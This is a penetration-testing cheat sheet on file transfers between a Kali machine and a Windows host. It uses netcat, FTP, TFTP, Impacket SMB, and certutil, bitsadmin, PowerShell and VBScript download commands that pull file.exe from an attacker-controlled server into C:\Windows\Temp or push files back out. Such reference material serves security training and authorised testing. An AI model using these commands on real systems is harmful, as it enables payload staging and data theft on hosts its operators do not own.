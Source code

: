 ##############
File Transfers
##############

Netcat
======

Transferring from Kali to Windows
---------------------------------

On Kali run:

.. code-block:: bash

    nc -nvlp 4444 < /path/to/file.exe

On Windows run:

.. code-block:: none

    nc.exe -nv 10.0.0.1 4444 > file.exe

Transferring from Windows to Kali
---------------------------------

On Kali run:

.. code-block:: bash

    nc -nvlp 4444 > /path/to/file.exe

On Windows run:

.. code-block:: none

    nc.exe -nv 10.0.0.1 4444 < file.exe

FTP
===

We can use python to create a quick FTP server. Install the following package:

.. code-block:: bash

    apt install python3-pyftpdlib

The ftp command on Windows is interactive by default. The :code:`-s` command line option can be used in conjunction with a text file that contains FTP commands to get around this limitation.

Transferring from Kali to Windows
---------------------------------

Start the FTP server on Kali:

.. code-block:: bash

    python3 -m pyftpdlib -p 21

    OR

    python -m pyftpdlib -p 21

On Windows, create a text file with the commands you wish to use:

.. code-block:: none

    echo open 192.168.1.78 > ftp.txt
    echo binary >> ftp.txt
    echo get test.txt >> ftp.txt
    echo bye >> ftp.txt

You can then execute the commands in the file with the following command:

.. code-block:: none

    ftp -A -s:ftp.txt

Note the :code:`-A` command line option, which performs an anonymous login.

Transferring from Windows to Kali
---------------------------------

Start the FTP server on Kali with write permissions (note: this is dangerous as we are using anonymous logins):

.. code-block:: bash

    python3 -m pyftpdlib -p 21 -w

    OR

    python -m pyftpdlib -p 21 -w

On Windows, create a text file with the commands you wish to use:

.. code-block:: none

    echo open 192.168.1.78 > ftp.txt
    echo binary >> ftp.txt
    echo put test.txt >> ftp.txt
    echo bye >> ftp.txt

You can then execute the commands in the file with the following command:

.. code-block:: none

    ftp -A -s:ftp.txt

Note the :code:`-A` command line option, which performs an anonymous login.

TFTP
====

TFTP is installed by default on Windows XP. It may not be installed on other versions of Windows. Sometimes it can be enabled on the command line:

.. code-block:: none

    pkgmgr /iu:"TFTP"

On Kali install a TFTP server:

.. code-block:: bash

    apt install atftpd

Create a dedicated tftp directory and change the ownership:

.. code-block:: bash

    mkdir /tftp
    chown nobody:nogroup /tftp

Run the TFTP server:

.. code-block:: bash

    atftpd --daemon --no-fork /tftp/

Transferring from Kali to Windows
---------------------------------

.. code-block:: none

    tftp -i 10.0.0.1 GET file.exe

Transferring from Windows to Kali
---------------------------------

.. code-block:: none

    tftp -i 10.0.0.1 PUT file.exe

SMB
===

Kali has an SMB server python script courtesy of Impacket.

Run the server on Kali:

.. code-block:: bash

    python /usr/share/doc/python-impacket/examples/smbserver.py kali /path/to/directory

On Windows, check that the share can be seen:

.. code-block:: none

    net view \\10.0.0.1
    Shared resources at \\10.0.0.1

    (null)

    Share name  Type  Used as  Comment

    -----------------------------------
    KALI        Disk
    The command completed successfully.

Regular filesystem commands should all work, and files can be copied to and from the share:

.. code-block:: none

    dir \\10.0.0.1\kali
    copy \\10.0.0.1\kali\file.exe C:\Windows\Temp\file.exe
    copy C:\Windows\Temp\file.exe \\10.0.0.1\kali\file.exe

HTTP
====

We can use python to create a quick HTTP server:

.. code-block:: bash

    python3 -m http.server 4444

    OR

    python -m SimpleHTTPServer 4444

CertUtil
--------

certutil.exe is available on more modern versions of Windows.

.. code-block:: none

    certutil.exe -urlcache -split -f http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe

BITSAdmin
---------

.. code-block:: none

    bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.0.1:4444/file.exe C:\Windows\Temp\file.exe


PowerShell Script
-----------------

.. code-block:: none

    powershell.exe -c "(new-object System.Net.WebClient).DownloadFile('http://10.0.0.1:4444/file.exe','C:\Windows\Temp\file.exe')"

Can also be dumped into a script:

.. code-block:: none

    echo $webclient = New-Object System.Net.WebClient > wget.ps1
    echo $url = "http://10.0.0.1:4444/file.exe" >> wget.ps1
    echo $output = "C:\Windows\Temp\file.exe" >> wget.ps1
    echo $webclient.DownloadFile($url,$output) >> wget.ps1

Run with:

.. code-block:: none

    powershell wget.ps1

VBS Script
----------

.. code-block:: none

    strFileURL = "http://10.0.0.1:4444/file.exe"
    strHDLocation = "C:\Windows\Temp\file.exe"
    Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
    objXMLHTTP.open "GET", strFileURL, false
    objXMLHTTP.send()
    If objXMLHTTP.Status = 200 Then
    Set objADOStream = CreateObject("ADODB.Stream")
    objADOStream.Open
    objADOStream.Type = 1 'adTypeBinary
    objADOStream.Write objXMLHTTP.ResponseBody
    objADOStream.Position = 0
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation
    Set objFSO = Nothing
    objADOStream.SaveToFile strHDLocation
    objADOStream.Close
    Set objADOStream = Nothing
    End if
    Set objXMLHTTP = Nothing

As a series of echo statements:

.. code-block:: none

    echo strFileURL = "http://10.0.0.1:4444/file.exe" >> downloadfile.vbs
    echo strHDLocation = "C:\Windows\Temp\file.exe" >> downloadfile.vbs
    echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> downloadfile.vbs
    echo objXMLHTTP.open "GET", strFileURL, false >> downloadfile.vbs
    echo objXMLHTTP.send() >> downloadfile.vbs
    echo If objXMLHTTP.Status = 200 Then >> downloadfile.vbs
    echo Set objADOStream = CreateObject("ADODB.Stream") >> downloadfile.vbs
    echo objADOStream.Open >> downloadfile.vbs
    echo objADOStream.Type = 1 'adTypeBinary >> downloadfile.vbs
    echo objADOStream.Write objXMLHTTP.ResponseBody >> downloadfile.vbs
    echo objADOStream.Position = 0 >> downloadfile.vbs
    echo Set objFSO = CreateObject("Scripting.FileSystemObject") >> downloadfile.vbs
    echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> downloadfile.vbs
    echo Set objFSO = Nothing >> downloadfile.vbs
    echo objADOStream.SaveToFile strHDLocation >> downloadfile.vbs
    echo objADOStream.Close >> downloadfile.vbs
    echo Set objADOStream = Nothing >> downloadfile.vbs
    echo End if >> downloadfile.vbs
    echo Set objXMLHTTP = Nothing >> downloadfile.vbs
    echo ""

Run with the following command:

.. code-block:: none

    cscript downloadfile.vbs
